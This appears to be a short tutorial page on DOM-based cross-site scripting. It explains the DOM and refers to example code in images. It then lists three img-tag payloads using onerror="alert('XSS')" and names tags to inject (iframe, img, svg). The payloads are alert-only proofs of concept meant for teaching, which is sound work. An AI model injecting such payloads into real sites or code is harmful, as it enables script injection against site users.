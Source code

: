 **DOM** (Document Object Model) is the object built by the web browser upon parsing the web page content provided by the server.

This object makes it easy to navigate through the different HTML tags

![dom-XSS-Example](images/dom-xss.png)

It is important to note that this attack does not require any interaction with the server. The following code can be inserted in the **&lt;HEAD>** of a local html file (*test.html* for example)

![dom-XSS](images/dom-xss-2.png)

**Request this file in the following way:**

![dom-XSS](images/dom-xss-3.png)

This will print out on screen the user input: *Armando*

&nbsp;

# Payloads Examples

<pre>test.html?name=&ltimg src="not_found_source" onerror="alert('XSS')" /> </pre>

**or**

<pre>"&gt&ltimg src="not_found_source" onerror="alert('XSS')" /> </pre>

**or**

<pre>&ltimg src="not_found_source" onerror="alert('XSS')" /> </pre>
&nbsp;

# Tags to Inject

### **IFrame**
### **Img**
### **SVG**